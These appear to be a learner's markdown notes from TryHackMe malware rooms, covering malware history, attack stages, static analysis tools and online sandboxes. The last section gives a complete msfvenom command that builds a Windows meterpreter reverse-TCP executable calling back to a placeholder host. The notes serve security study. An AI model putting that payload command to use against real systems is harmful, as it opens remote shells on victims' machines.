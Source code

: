 1. ###### History ([room](https://tryhackme.com/room/historyofmalware))
- malware = malicious software
- 1971 - first malware - Creeper
- 1973 - first "antivirus" - Reaper (was created to remove any copy of Creeper)
- 1974 - Wabbit - reproducing as fast as rabbits => computer would choke on their own resources; did not spread through network
- 1975 - ANIMAL - first Trojan
- 1982 - Elf Cloner - first microcomputer virus, boot sector virus, spread to US Navy
- 1986 - Computer Fraud and Abuse act

2. ###### Intro ([room](https://tryhackme.com/room/malmalintroductory))
- when analysing it's important to consider: 
	- Point of Entry
	- indicators of malware being executed on a machine
	- what does the malware do
- attacks - targeted vs. mass campain
- malware attack process breakdown:
	1. Delivery
		- USB, PDF attachment,...
	2. Execution
		- what does it do - encypting files, logs keystrokes, displays ads,...
	3. Maintaining persistence (not always the case)
	4. Propagation (not always)
- two categories of fingerprints:
	- host-based signatures - results of execution and any ppersistence performed by malware
	- network-based signatures - network communication taking place during delivery, delivery and propagation
- two types of malware analysis:
	- static 
		- gaining high level abstraction of the sample
		- PE Explorer, PeID, IDA, WinDg
	- dynamic - usualy involves executing the sample

3. ###### Analysis
- 
	1. Static analysis
	- MD5 checksum
		- on Windows: [HashTab](http://implbits.com/products/hashtab/)
		- in Linux: md5checksum or md5deep
		- lookup the MD5 checksum - Virustotal,...
	- identify the compiler/packer of a file
		- PeID (W), [Detect it Easy](https://github.com/horsicq/Detect-It-Easy) (L)
		- packing is a form of obfuscation
		- in IDA - check Imports - obfuscated code has little to no Imports
	- strings ([room](https://tryhackme.com/room/malstrings))
		- text/numbers contents of a program
		- can contains credentials, Bitcoin addreses
		- SysInternalsSuite => Strings (W), strings (L)
	- imports
		- PE Explorer (W GUI), IDA
	- automated analysis with [[binwalk]]
	- more condensed summary with [[exiftool]]

1. ###### Research ([room](https://tryhackme.com/room/malresearching))
- checksums + VirusTotal
- online sandboxes - [any.run](https://any.run/), [hybrid-analysis](https://hybrid-analysis.com/)



###### Create Malicious Executable
- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<host_IP> LPORT=<destination_port> -f exe -o maliciousfile.exe`
	- `-a`: architecture
	- `--platform`: windons/linux
	- `-p`: payload
	- `-f`: file extension
	- `-o`: output file